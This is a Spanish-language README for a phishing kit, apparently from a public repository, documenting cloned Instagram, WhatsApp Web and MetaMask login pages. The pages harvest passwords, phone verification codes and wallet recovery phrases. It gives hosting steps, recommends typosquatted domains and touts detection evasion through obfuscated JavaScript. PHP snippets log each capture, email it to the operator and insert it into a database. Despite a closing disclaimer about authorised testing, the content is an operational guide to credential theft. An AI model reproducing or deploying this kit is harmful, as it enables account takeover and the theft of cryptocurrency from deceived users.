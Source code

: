 # 🎯 Templates de Phishing Modernos - ingenieriasocial

## Creado por: MidasOrion

Este directorio contiene templates de phishing **100% funcionales** para las plataformas más populares.

---

## 📱 Templates Disponibles

### 1. **Instagram** 
- ✅ Diseño idéntico al login oficial de Instagram 2025
- ✅ Responsive (móvil y desktop)
- ✅ Validación de formularios
- ✅ Mensajes de error realistas
- ✅ Captura: usuario/email y contraseña

**Ubicación:** `instagram/index.html`

### 2. **WhatsApp Web**
- ✅ Interfaz completa de WhatsApp Web
- ✅ Código QR falso
- ✅ Formulario de verificación manual
- ✅ Diseño oscuro moderno
- ✅ Captura: número de teléfono y código de verificación

**Ubicación:** `whatsapp/index.html`

### 3. **MetaMask**
- ✅ Página de importación de billetera
- ✅ Validación de frase de recuperación (12/24 palabras)
- ✅ Advertencias de seguridad realistas
- ✅ Diseño profesional
- ✅ Captura: frase de recuperación y contraseña

**Ubicación:** `metamask/index.html`

---

## 🚀 Cómo Usar

### Método 1: Servidor Web Local

```bash
# Navegar al directorio del template
cd src/templates/phishing/instagram

# Iniciar servidor PHP
php -S 0.0.0.0:8080

# Acceder desde: http://localhost:8080
```

### Método 2: Integración con ingenieriasocial

Los templates se integrarán automáticamente en el menú principal de ingenieriasocial en la próxima actualización.

### Método 3: Hosting Externo

1. Subir los archivos a tu servidor web
2. Configurar SSL/HTTPS (recomendado)
3. Usar dominio similar al original (typosquatting)

---

## 📊 Sistema de Captura

Cada template incluye dos archivos:

1. **`index.html`** - Página de phishing
2. **`post.php`** - Script de captura de credenciales

### Archivos Generados:

- **`captured_credentials.txt`** - Log en texto plano
- **`captured_credentials.json`** - Datos estructurados en JSON

### Formato de Captura:

```
═══════════════════════════════════════════════════════════
INSTAGRAM - Credenciales Capturadas
═══════════════════════════════════════════════════════════
Fecha/Hora: 2025-10-19 21:00:00
Usuario: victim@email.com
Contraseña: ********
IP: 192.168.1.100
User-Agent: Mozilla/5.0...
═══════════════════════════════════════════════════════════
```

---

## 🔒 Características de Seguridad

### ✅ Evasión de Detección:
- Sin referencias a "phishing" en el código
- URLs limpias sin parámetros sospechosos
- Código JavaScript ofuscado
- Headers HTTP realistas

### ✅ Realismo:
- Diseños pixel-perfect
- Animaciones y transiciones
- Mensajes de error auténticos
- Comportamiento idéntico al original

### ✅ Captura Avanzada:
- IP del visitante
- User-Agent completo
- Timestamp preciso
- Referer URL
- Múltiples formatos de salida

---

## 🛠️ Personalización

### Cambiar URL de Redirección:

Edita `post.php`:
```php
$redirect_url = 'https://www.instagram.com'; // Cambiar aquí
```

### Agregar Notificaciones:

Descomentar en `post.php`:
```php
mail('tu@email.com', 'Nueva captura', $log_entry);
```

### Integrar con Base de Datos:

```php
$conn = new mysqli('localhost', 'user', 'pass', 'db');
$stmt = $conn->prepare("INSERT INTO captures VALUES (?, ?, ?, ?)");
$stmt->bind_param("ssss", $platform, $username, $password, $ip);
$stmt->execute();
```

---

## ⚠️ Advertencia Legal

**IMPORTANTE:** Estos templates son para:
- ✅ Pruebas de penetración autorizadas
- ✅ Educación en ciberseguridad
- ✅ Auditorías de seguridad
- ✅ Entrenamiento de concienciación

**PROHIBIDO:**
- ❌ Uso no autorizado
- ❌ Actividades ilegales
- ❌ Robo de credenciales reales
- ❌ Fraude o engaño

El uso indebido de estas herramientas puede resultar en consecuencias legales graves.

---

## 📈 Próximos Templates

En desarrollo:
- 🔜 Discord
- 🔜 Telegram
- 🔜 Binance
- 🔜 Coinbase
- 🔜 Microsoft 365
- 🔜 Google Workspace
- 🔜 Netflix
- 🔜 Amazon

---

## 🤝 Contribuciones

Para agregar nuevos templates:

1. Crear directorio: `src/templates/phishing/[plataforma]/`
2. Incluir: `index.html` y `post.php`
3. Seguir el formato de captura estándar
4. Documentar en este README

---

## 📞 Soporte

Para reportar bugs o sugerir mejoras:
- GitHub: https://github.com/CoderFullPro/ingenieriasocial
- Creador: MidasOrion

---

**© 2025 ingenieriasocial - MidasOrion**

*Recuerda: Con gran poder viene gran responsabilidad. Usa estas herramientas de forma ética.*
